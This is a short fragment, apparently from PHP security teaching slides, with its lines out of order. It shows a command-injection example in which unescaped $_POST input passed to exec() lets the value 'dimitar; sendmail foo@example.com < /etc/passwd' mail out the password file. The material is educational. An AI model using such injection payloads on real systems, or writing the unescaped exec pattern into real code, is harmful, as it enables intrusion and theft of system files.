

# Escaping User Input
Example

What if $_POST['user'] contains:

So the command executed becomes:

And at address foo@example.com is sent the entire password file
$cmd = "mkdir /users/".$_POST['user'];
exec ($cmd); // executes $cmd as shell command
dimitar; sendmail foo@example.com < /etc/passwd
mkdir /users/dimitar; sendmail foo@example.com < /etc/passwd